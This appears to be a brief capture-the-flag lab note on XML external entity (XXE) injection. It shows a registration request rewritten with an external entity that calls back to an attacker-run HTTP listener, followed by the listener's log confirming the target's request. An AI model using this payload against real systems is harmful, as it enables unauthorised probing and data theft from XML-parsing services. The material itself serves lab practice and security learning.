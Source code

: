 # XXE

<?xml version="1.0" encoding="UTF-8"?>
<root>
  <method>POST</method>
  <uri>/auth/register</uri>
  <user>
    <username>username_value</username>
    <password>password_value</password>
  </user>
</root>

<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE test [ 
<!ENTITY % xxe SYSTEM "http://10.10.16.8"> 
%xxe;
]>

<root>
  <method>POST</method>
  <uri>/auth/register</uri>
  <user>
    <username>username_value</username>
    <password>password_value</password>
  </user>
</root>

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.192 - - [12/May/2023 12:35:19] "GET / HTTP/1.1" 200 -
